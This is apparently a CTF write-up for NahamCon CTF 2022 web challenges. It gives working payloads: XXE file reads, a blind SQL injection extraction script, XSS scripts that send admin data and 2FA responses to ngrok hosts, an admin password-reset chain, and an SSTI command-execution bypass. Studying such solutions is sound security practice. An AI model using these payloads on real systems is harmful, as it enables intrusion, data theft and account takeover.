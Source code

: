 # Jurassic Park
## Content Discovery
- robots.txt --> leak ``/ingen/flag.txt``
# EXtravagant
## XXE Injection
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]>
<root>&test;</root>
```
# Personnel
[src](Writeup/NahamCon-CTF-2022/src/app.py)
## Regex bypass
```
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data "setting=2&name=.*" http://challenge.nahamcon.com:30349/
```
# Flaskmental Alchemist
## CVE-2019-7164: SQLALchemy (order_by) aka Blind SQLi 
[src](Writeup/NahamCon-CTF-2022/src/fma.zip)
```
#!python3
from curses import keyname
import requests,string
payload=string.printable
url= "http://challenge.nahamcon.com:31445/"
h={
    "Content-Type": "application/x-www-form-urlencoded"
}
flag=''
i=1
while True:
    for key in range(33,127):
        data={
            "search":"a",
            "order":f"(CASE WHEN (SELECT SUBSTR(flag,{i},1) FROM flag)=CHAR({key}) THEN symbol ELSE atomic_number END) DESC "
        }
        r=requests.post(url,headers=h,data=data)
        if int(r.text.index('23')) < int(r.text.index('110')):
            flag+=chr(key)
            print(f"[+] Found Char: {flag}")
            i+=1
            break
        else:
            print(f"[-] Trying {chr(key)}")
```
# Hacker Ts
## XSS
```
<script src="http://a739-2402-800-61b1-c507-f1b3-14c7-7e32-85eb.ngrok.io/exploit.js"></script>
```

``exploit.js``:
```
var r1 = new XMLHttpRequest();
r1.open('GET', "http://localhost:5000/admin", false);
r1.send()
var flag = r1.responseText;
var r2 = new XMLHttpRequest();
r2.open('GET', 'http://a739-2402-800-61b1-c507-f1b3-14c7-7e32-85eb.ngrok.io/?flag=' + encodeURI(btoa(flag)), true);
r2.send()
```
# Two For One
## XSS & Bypass 2FA
- Leak OTP code from admin -> generate QR with ``qr`` command (``pip3 install qrcode``)

``get_2fa.js``:
```
var r = new XMLHttpRequest();
r.open("POST", "http://challenge.nahamcon.com:32284/reset2fa");
r.withCredentials = true;
r.onload = () => {
    var r2 = new XMLHttpRequest;
    r2.open("GET", "http://0e0b-2402-800-61b1-c507-f1b3-14c7-7e32-85eb.ngrok.io/?flag=" + btoa(r.responseText));
    r2.send()
};
r.send();
```
- Reset admin password
```
var r = new XMLHttpRequest;
data = JSON.stringify({
    'password': '123',
    'password2': '123',
    'otp': '559483',
});
r.open("POST", "http://challenge.nahamcon.com:32284/reset_password", true)
r.onload = () => {
    var r2 = new XMLHttpRequest;
    r2.open("GET", "http://0e0b-2402-800-61b1-c507-f1b3-14c7-7e32-85eb.ngrok.io/?flag=" + btoa(r.responseText));
    r2.send();
};
r.setRequestHeader('Content-type', 'application/json');
r.send(data);
```
- login with that cred and get to get the flag
  
# Defcon
## SSTI (Bypass Bracket and RFC5322-compliant)
https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html

Payload:
```
name=qquang&email={{joiner.__init__.__globals__.os.popen⁽'cat${IFS}*'⁾.read⁽⁾}}@gmail.com
```

# Poller (Not solve)
Read [here](../../Note/django_picker_serialize.md)